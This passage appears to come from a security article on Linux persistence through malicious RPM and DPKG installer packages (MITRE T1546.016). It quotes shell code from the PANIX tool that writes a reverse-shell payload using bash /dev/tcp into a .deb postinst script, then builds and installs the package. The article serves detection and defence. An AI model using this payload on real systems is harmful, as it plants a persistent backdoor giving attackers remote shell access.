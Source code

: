 A typical malicious RPM package might include a `%post` script embedded directly in the package’s `spec` file. For example, a `%post` script could launch a reverse shell or modify critical system configurations immediately after the package installation completes. An example package layout could look as follows:

```
~/rpmbuild/
├── SPECS/
│    ├── malicious_package.spec
├── BUILD/
├── RPMS/
├── SOURCES/
├── SRPMS/
```

Upon installation, `RPM` runs the `%post` script, allowing the attacker to execute the payload. The package manager logs installation activity in `/var/log/rpm.log`, which includes the names and timestamps of installed packages. Additionally, the built `RPM` package is stored in `/var/lib/rpm/`.

### Persistence through T1546.016 - Installer Packages: DPKG & RPM

PANIX can establish persistence through both `DPKG` and `RPM` within the [setup_malicious_package.sh](https://github.com/Aegrah/PANIX/blob/ae404d5caf74c772436ccaaa0c3ab51cba8c4250/modules/setup_malicious_package.sh) module. Starting with `DPKG`, the directory structure is created, the control file is written and the payload is added to the `postinst` file:

```
# DPKG package setup
PACKAGE_NAME="panix"
PACKAGE_VERSION="1.0"
DEB_DIR="${PACKAGE_NAME}/DEBIAN"
PAYLOAD="#!/bin/sh\nnohup setsid bash -c 'bash -i >& /dev/tcp/${ip}/${port} 0>&1' &"

# Create directory structure
mkdir -p ${DEB_DIR}

# Write postinst script
echo -e "${PAYLOAD}" > ${DEB_DIR}/postinst
chmod +x ${DEB_DIR}/postinst

# Write control file
echo "Package: ${PACKAGE_NAME}" > ${DEB_DIR}/control
echo "Version: ${PACKAGE_VERSION}" >> ${DEB_DIR}/control
echo "Architecture: all" >> ${DEB_DIR}/control
echo "Maintainer: https://github.com/Aegrah/PANIX" >> ${DEB_DIR}/control
echo "Description: This malicious package was added through PANIX" >> ${DEB_DIR}/control
```

Afterwards, all that is left is to build the package with `dpkg-deb` and install it through `dpkg`. 

```
# Build the .deb package
dpkg-deb --build ${PACKAGE_NAME}

# Install the .deb package
dpkg -i ${PACKAGE_NAME}.deb
```
